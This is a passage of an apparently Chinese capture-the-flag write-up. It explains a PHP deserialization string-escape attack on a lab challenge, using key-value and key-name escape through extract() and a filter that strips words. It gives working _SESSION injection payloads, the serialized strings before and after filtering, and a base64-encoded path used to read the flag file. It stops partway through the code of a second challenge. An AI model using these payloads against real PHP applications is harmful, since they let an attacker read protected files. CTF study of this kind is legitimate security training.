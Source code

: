 > 其中 img 的值在传参之后经过两次编码，之后只有一次解码，这不对劲，而且这个过程很复杂
>
> 还记得上面提到的 extract()函数吗？我们直接利用这个函数传参不就行了
>

键值逃逸

```php
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

过滤前:

```php
a:3:{s:4:"user";s:23:"flagflagflagflagflagphp";s:8:"function";s:57:"";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

过滤后,为方便看,将同一个键值对放同一行了

```php
a:3:{
  s:4:"user";s:23:"";s:8:"function";s:57:"";
  s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}"// 需要的内容
  ;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}// 这些字符串逃逸了
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732807308197-46352845-2e46-4121-a728-da6c9287ecb4.png)

 将/d0g3_fllllllag进行base64编码后上传，可获得 flag  

```php
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"1";s:1:"2";}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732807560061-1a0f94c2-b602-4411-b4ac-a05af8130f87.png)

键名逃逸

```php
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

>  过滤前  
`a:2:{s:7:"phpflag";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`  
过滤后  
a:2:`{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`  
下面的步骤和值替换一样  
这里的键名变为`";s:48:` 实现了逃逸  
>

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732808039213-a08de1b9-83df-4317-bfb1-be45f9445c8c.png)

## web1_此夜圆
```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
```
